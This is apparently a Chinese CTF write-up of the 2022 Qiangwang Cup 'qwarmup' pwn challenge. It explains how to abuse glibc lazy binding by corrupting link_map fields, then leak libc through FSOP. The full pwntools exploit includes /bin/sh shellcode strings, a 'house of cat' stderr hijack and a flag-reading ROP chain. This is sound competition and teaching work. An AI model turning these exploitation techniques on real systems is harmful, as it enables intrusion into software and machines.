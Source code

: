 ```yaml
---
title: 从qwarmup中学习到关于lazybind和linkmap的利用技巧
date: 2022-08-12 6:54:59 +0800
categories:
  - ctf比赛
tags:
  - pwn
  - ctf
permalink: /posts/id=41/
pin: false
published:
---
```


## 适用场景

适用于Partial Relro时，没有有效的泄露函数，有任意libc地址写且其后会执行未执行过的函数

## 使用方法

主要技巧

1.让绑定错位失效，去修改link_map->l_addr来使得，解析的真实函数地址无法写在got表上(但是函数还是可以正常执行)

2.劫持link_map->l_info[DT_STRTAB]，劫持之前先伪造好strtab(比如在_r_debug上)，原本指向DT_STRTAB的d_val，改其指向DT_DEBUG的d_val

3.执行完记得恢复，让其正常执行原函数功能

## 例题分析:qwarmup

来自2022年强网杯线上赛

![image-20220812170420267](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812170420267.png)

![image-20220812170535426](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812170535426.png)

2.35的版本，题目开了沙箱

![image-20220812170503979](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812170503979.png)

先看下题目情况，题目给了一个4字节的size用于malloc，这里是可以申请到libc段上方

然后是dowhile循环，会取size的高2字节保留，低位2字节赋0，所得的值作为校验，如果不为0就跳出循环。这里如果我们申请的是libc段上方，size就是0x10000往上，就会导致计算所得值不为0，从而跳出循环

而在循环内部，如果我们申请的是libc段上方，那么就可以对libc端任意地址写



题目采用**延迟绑定**的方式执行函数，没有可用于泄露地址的函数

所以考虑劫持stdout泄露地址，但缺少printf族输出函数，可以通过执行`_IO_flush_all`来触发

如果我们改掉该程序本身这个linkmap结构体的link_map->l_addr，就会导致解析完的真实write地址写入的位置发生改变，我们算下偏移，让其写入到0x4088的位置，这样一来，size的高位就为0了

![image-20220812210104272](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812210104272.png)

由于write的真实地址没有被写进got表，因此每次调用write都会进行一次查找，主要是执行`dl_runtime_resolve`，然后执行`_dl_fixup`函数，其中会去`call _dl_lookup_symnol_x`来获取函数的真实地址

![image-20220812211247119](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812211247119.png)

第一个参数就是要查找函数的函数名，即`sym->st_name`，其来获取于strtab，strtab则是来源于libc上的全局结构体link_map，link_map->l_info[DT_STRTAB]



这里讲一下linkmap结构

`l_addr`：表示 libary 的基地址

`l_name`：表示 libary 的名字

`l_next`：链接着该程序所有用到的 libary，在GOT[1] 中保存的地址是第一层 link_map 中所表示的 libary，可以用 l_next 结构寻找下一层表示的 libary，以此来遍历程序中所用到的 libary，并利用结构体的字段找到该层 libary 的名字、基地址、以及所有的 section 等信息。

`l_info[x]`：指向该 libary 下的 .dynamic。`l_info[1]` 指向 d_tag = 1 时所表示的 section(这里的Elf64_Dyn结构体) ，所以可以改变 x 的值找到每个相关 section 的地址。在链接过程中 binary 中的 section 地址，以及 libary 中的地址都是通过此方法确定的。

下图是`_rtld_global`中第一个linkmap节点(程序本身)

![image-20220812211717640](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812211717640.png)

.dynamic节如图所示，是由Elf64_Dyn结构体组成的

![image-20220812212950032](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812212950032.png)

比如像这样一段

d_tag == DT_STRTAB，d_val == 5 ，d_ptr == 0x560

DT_STRTAB大多都是宏定义，据我观察和dl_val是同样的值

```
Elf64_Dyn <5, 560h>                     ; DT_STRTAB
```

gdb中可以发现其正是指向Elf64_Dyn结构体

![image-20220812220457216](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812220457216.png)



再说回这个`_dl_lookup_symbol_x`，第一个参数st_name主要就是通过strtab获取的

如果我们修改掉link_map->l_info[DT_STRTAB]的值为另一个可控的Elf64_Dyn结构体的地址，相当于劫持strtab，就可以执行任意函数

```c
_dl_lookup_symbol_x (strtab + sym->st_name, l, &sym, l->l_scope,version, ELF_RTYPE_CLASS_PLT, flags, NULL);
```

比如说我们控制link_map->l_info[DT_STRTAB]到DT_DEBUG，这样，我们在write相同偏移处写入IO_flush_all，就能利用lazybinding实现任意函数执行，前提是任意libc地址写，且其后会执行未执行过的函数

![image-20220812211153075](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220812211153075.png)

利用这一点我们可以执行_IO_flush_all函数实现FSOP触发stdout的泄露地址

关于IO_flush_all这个函数呢，主要是调用`_IO_flush_all_lockp`函数，会把IO结构体从stderr开始依次校验(if判断)

拿到libc地址以后，后续就可以通过劫持IO_stderr实现FSOP触发的IO利用，方法很多了，house of cat/house of emma/house of pig等

这里提供一下打本地的exp，远程有一定偏移上的区别

```python
# _*_ coding:utf-8 _*_
from pwn import *
# context.log_level = 'debug'

p = process("./qwarmup")
elf = ELF("./qwarmup")
libc = elf.libc

def dbg(con=''):
    gdb.attach(p,con)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def write(offset,content):
	for i in range(len(content)):
		p.send(p64(offset+i))
		p.send(content[i])
		p.recvuntil("Success!")

p.send(p32(0xf0000))

write(0x3592d0,"\x70")# 控制覆盖size，同时不让真实地址写入got表

write(0x30e770,p32(0xfbad1800))# IO_stdout
write(0x30e770+0x20+0x8,"\xff")

write(0x359108+0x22,"_IO_flush_all")# 0x22 is offset of write of strtab
p.send(p64(0x359338))
p.send("\xd0")

libc_base=uu64()-0x21ba70
lg('libc_base')

setcontext=libc_base+libc.sym["setcontext"]+61
Read = libc_base+libc.sym["read"]
Write = libc_base+libc.sym['write']
pop_rdi = libc_base+0x2a3e5
pop_rsi = libc_base+0x2be51
pop_rdx = libc_base+0x90529
pop_rcx = libc_base+0x8c6bb
syscall = libc_base+0x91396
pop_rax = libc_base+0x45eb0
heap = libc_base-0xf3ff0
IO_wfile_jumps = libc_base + 0x2160c0
lg('heap')
write(0x359338,"\x90")# recover

#----------------------house of cat by FSOP-----------------------

stderr = libc_base+0x21a6a0# IO_stderr_addr
write(0x30e690+0x28,p64(0xffffffffffffffff))
write(0x30e690+0x40,p64(1))
write(0x30e690+0x50,p64(heap)+p64(setcontext))# rdx
write(0x30e690+0xa0,p64(stderr+0x30))
write(0x30e690+0xd8,p64(IO_wfile_jumps+0x30))
write(0x30e690+0xd8+0x38,p64(stderr+0x40))


rop = p64(heap)+p64(pop_rsi)+p64(0)+p64(pop_rax)+p64(2)+p64(syscall)
rop += p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(heap+0x400)+p64(pop_rdx)+p64(0x30)*2+p64(Read)
rop += p64(pop_rdi)+p64(1)+p64(Write)

payload = "flag".ljust(0xa0,'\x00')+p64(heap+0x100)+p64(pop_rdi)
payload = payload.ljust(0x100,'\x00')
payload += rop

write(0,payload)
p.send(p64(0x359338))# IO_flush
p.send("\xd0")

p.interactive()
```



参考文章：

[深入窥探动态链接 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/134105591)

[高版本glibc堆的几种利用手法 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/535469996)

[2022强网杯 Pwn 部分Writeup-Pwn影二つ的博客 (kagehutatsu.com)](https://kagehutatsu.com/?p=723)

[从o开始的pwn学习之超详细ret2dl_resolve_金语的博客-CSDN博客](https://blog.csdn.net/jzc020121/article/details/116312592)

[高级ROP-ret2dlresolve(1) · 语雀 (yuque.com)](https://www.yuque.com/cyberangel/rg9gdm/oyne1i#gGyAO)